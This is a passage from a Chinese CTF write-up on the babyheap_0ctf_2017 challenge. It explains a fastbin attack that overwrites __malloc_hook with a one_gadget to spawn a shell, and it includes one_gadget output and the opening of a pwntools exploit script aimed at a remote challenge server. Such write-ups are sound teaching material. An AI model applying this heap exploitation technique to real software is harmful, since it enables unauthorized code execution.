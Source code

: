 在0x7f12e66c5aed，这样就可以构造出一个index为5的fastbin，这样就可以改写__malloc_hook了。

```python
allocate(0x60)
free(4)
payload = p64(libc_base+0x3c4aed)
fill(2, payload)
```

 首先把 chunk 4 malloc 回来，这次 malloc 的大小在 fastbin 之内，然后把 chunk 4 的内容改为我们下一个要构造块的地址（chunk 4 已经被 free 掉，所以无法用 fill(4) 写入，由于我们刚刚把 chunk 2 的 fd 指针改为 chunk 4 的地址，所以第一次 malloc(0x10) 的时候是分配的原来 chunk 2 的块给 index 1，第二次 malloc(0x10) 的时候就会分配 chunk 4 的块给 index 2，也就是说 index 2 与 index 4 的内容都是 chunk 4）

这里介绍一个神奇的工具 one gadget，只用一个 gadget 地址就可以成功调用 execve("/bin/sh")。

```
gwt@ubuntu:~/Desktop$ one_gadget libc-x64-2.23.so 
[OneGadget] 
Checking for new versions of OneGadget            
To disable this functionality, do            
$ echo never > /home/gwt/.cache/one_gadget/update[OneGadget] 
A newer version of OneGadget is available (1.6.2 --> 1.7.4).            
Update with: $ gem update one_gadget && gem cleanup one_gadget0x45216	
execve("/bin/sh", rsp+0x30, environ)constraints:  rax == NULL0x4526a	
execve("/bin/sh", rsp+0x30, environ)constraints:  [rsp+0x30] == NULL0xf02a4	
execve("/bin/sh", rsp+0x50, environ)constraints:  [rsp+0x50] == NULL0xf1147	
execve("/bin/sh", rsp+0x70, environ)constraints:  [rsp+0x70] == NULL
```

在 __malloc_hook 地址处写入 one_gadget ，这样再次 allocate 就可以调用 one_gadget 拿 shell

EXP:

```python
from pwn import *
from LibcSearcher import *
context(log_level='DEBUG')
#io = process('./babyheap_0ctf_2017')
io = remote("node3.buuoj.cn", 28982)
libc = ELF("libc-x64-2.23.so")
def allocate(size):
	io.recvuntil("Command: ")
	io.sendline("1")#allocate
	io.recvuntil("Size: ")
	io.sendline(str(size))

def fill(index,content):
	io.recvuntil('Command: ')
	io.sendline('2')
	io.recvuntil('Index: ')
	io.sendline(str(index))
	io.recvuntil('Size: ')
	io.sendline(str(len(content)))
	io.recvuntil('Content: ')
	io.send(content)


def free(index):
	io.recvuntil("Command: ")
	io.sendline("3")#free
	io.recvuntil("Index: ")
	io.sendline(str(index))

def dump(index):
	io.recvuntil("Command: ")
	io.sendline("4")
	io.recvuntil("Index: ")
	io.sendline(str(index))
```